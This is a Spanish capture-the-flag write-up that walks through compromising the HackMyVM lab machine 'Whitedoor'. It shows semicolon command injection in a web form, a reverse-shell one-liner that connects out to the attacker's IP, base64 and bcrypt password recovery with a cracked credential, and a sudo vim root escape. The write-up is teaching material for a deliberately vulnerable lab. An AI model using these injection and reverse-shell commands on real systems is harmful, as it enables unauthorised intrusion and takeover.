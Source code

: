 ```yaml
---
title: 'Whitedoor'
date: 2024-02-03T14:02:36-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'base64', 'bcrpyt', 'sudo', 'vim']
image:
  path: /assets/img/hmvm/whitedoor/whitedoor-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, abordaremos la resolución de la máquina [Whitedoor](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor) de la plataforma HackMyVM. La máquina aloja un sitio web que presenta un formulario con un campo de entrada, el cual nos concede la capacidad de ejecutar comandos del sistema sin previa validación. De este modo, conseguimos acceso al sistema como el usuario `www-data`. A continuación, realizamos un movimiento lateral para obtener acceso como el usuario `whiteshell` al descifrar una contraseña codificada en base64, la cual encontramos en un archivo de texto plano. Posteriormente, nos enfrentamos al desafío de romper un hash codificado presente en un archivo `.txt`. Finalmente, aprovechamos una configuración inadecuada de `sudo` para elevar nuestros privilegios, logrando así una exitosa escalada de privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.9 -vvv -oG scanPorts
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-2.png)
_Descubrimiento de puertos abiertos_

Parámetros utilizados:

- `-sS`: Realiza un TCP SYN Scan para escanear de manera sigilosa, es decir, que no completa las conexiones TCP con los puertos de la máquina víctima.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`).
- `--open`: Solo considerar puertos abiertos.
- `--min-rate 5000`: Establece el número mínimo de paquetes que nmap enviará por segundo.
- `-Pn`: Desactiva el descubrimiento de host por medio de ping.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.
- `-oG`: Determina el formato del archivo en el cual se guardan los resultados obtenidos. En este caso, es un formato _grepeable_, el cual almacena todo en una sola línea. De esta forma, es más sencillo procesar y obtener los puertos abiertos por medio de expresiones regulares, en conjunto con otras utilidades como pueden ser grep, awk, sed, entre otras.

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.9
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-3.png)
_Descubrimiento de versión y servicio con nmap_

Parámetros utilizados:

- `-sCV` Es la combinación de los parámetros `-sC` y `-sV`. El primero determina que se utilizarán una serie de scripts básiscos de enumeración propios de nmap, para conocer el servicio que esta corriendo en dichos puertos. Por su parte, el segundo parámetro permite conocer más acerca de la versión de ese servicio.
- `-p-`: Indica que debe escanear todos los puertos (es igual a `-p 1-65535`)
- `-oN`: Determina el formato del archivo en el cual se guardan los resultados obtenidos, junto con el nombre del archivo `targeted`. En este caso, utiliza el formato por defecto de nmap.
- `-vvv`: Activa el modo _verbose_ para que nos muestre resultados a medida que los encuentra.


## Explotación

### FTP

Como observamos en el escaneo anterior, el servicio `ftp` permite acceder con el usuario `anonymous`. En este caso, debemos ingresar como contraseña `anonymous@20.20.20.9`.
Al listar el contenido, nos encontramos con un archivo `README.md` el cual nos descargamos.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-4.png)
_README.md_

Al ver su contenido, nos muestra el siguiente mensaje: `¡Good luck!` :wink:.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-22.png)
_README.md_

### Usuario `www-data`

Continuamos explorando y accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos con lo siguiente:

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-5.png)
_Web Whitedoor_

Contamos un campo de entrada, que al ingresar cualquier texto de prueba nos indica que solo el comando `ls` esta permitido.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-6.png)
_Permission denied. Only the ls command is allowed_

Si ejecutamos el comando `ls`, podemos ver que se listan algunos nombres de archivos.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-7.png)
_Web Whitedoor - ls_

Intentemos ejecutar más de un comando en la misma ejecución. En `bash`, podemos ejecutar varios comandos en una misma línea utilizando el punto y coma ; para separarlos. Utilizando la siguiente sintaxis:

```bash
comando1; comando2; comando3; comando4
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-8.png)
_Web Whitedoor - ls; id_

Observamos que efectivamente funciona. Logramos ejecutar el segundo comando después del punto y coma.

Teniendo en cuenta, que tenemos capacidad de ejecución de comandos, ejecutemos una reverse shell. Para lo cual, cremos un archivo (`shell.sh`) bajo el directorio `/tmp` el cual contiene nuestra reverse shell, todo esto desde un oneliner.

Antes de ejecutar nuestra reverse shell, pongámonos en escucha con netcat `nc` por el puerto 4444.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-10.png)
_netcat_

Ejecutamos la reverse shell.

```bash
ls; echo 'bash -i >& /dev/tcp/20.20.20.5/4444 0>&1' > /tmp/shell.sh; chmod +x /tmp/shell.sh; bash /tmp/shell.sh
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-9.png)
_Reverse shell_

De esta manera, ganamos acceso al sistema.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-11.png)
_Usuario www-data_

### Usuario `whiteshell`

Haciendo una enumeración básica del sistema, encontramos un archivo llamado `.my_secret_password.txt` bajo el directorio `Desktop` del usuario `whiteshell`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-12.png)
_Archivo .my_secret_password.txt_

Podemos determinar a que tipo de hash corresponde el conjunto de caracteres encontrado, utilizando la web [tunnelsup.com](https://www.tunnelsup.com/hash-analyzer/).

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-13.png){: width="500" height="250" }
_Hash Analyzer_

Vemos que no logra identificar ningun hash, pero nos indica que el tipo de caracteres corresponde con la codificación base64.

Si decodificamos esta cadena utilizando esta codificación, obtenemos una nueva cadena codificada en base64.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-14.png)
_Decodificación de cadena usando base64_

Decodificamos la nueva cadena usando nuevamente base64 y obtenemos la contraseña del usuario `whiteshell`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-15.png)
_Decodificación de cadena usando base64_

### Usuario `Gonzalo`

Realizamos nuevamente una enumeración básica al sistema y encontramos un archivo llamado `.my_secret_hash` bajo el directorio `Desktop` del usuario `Gonzalo` el cual contiene un hash codificado con el algoritmo *bcrypt*.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-16.png)
_Hash de la contraseña del usuario Gonzalo_

Usamos `john` para romper el hash y obtener la contraseña del usuario `Gonzalo`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-17.png)
_Crackeamos el hash usando john para obtener la contraseña_

`Gonzalo:qwertyuiop`

Nos logueamos como el usuario `Gonzalo` y leemos el flag de `user.txt`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-18.png)
_user.txt_

## Escalada de privilegios

Al realizar una enumeración del sistema, notamos que el usuario `Gonzalo` tiene la capacidad de ejecutar el editor `vim` con privilegios de `sudo`, sin requerir la contraseña (NOPASSWD).

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-19.png)
_sudo -l_

Si hacemos una búsqueda en GTFOBins, podemos ver que existen varias alternativas de poder escalar nuestros privilegios en este contexto [GTFOBins - vim](https://gtfobins.github.io/gtfobins/vim/#sudo), en este caso, usare la primera de ellas.

```bash
sudo vim -c ':!/bin/sh'
```

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-20.png)
_sudo vim_

De esta forma, logramos elevar nuestros privilegios y podemos leer el flag del archivo `root.txt`.

![Whitedoor](/assets/img/hmvm/whitedoor/whitedoor-19.png)
_root.txt_

Así concluimos el Write-up de la máquina Whitedoor.

Espero que los conceptos hayan quedado claros. En caso de persistir alguna duda, te invito a repetir la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!
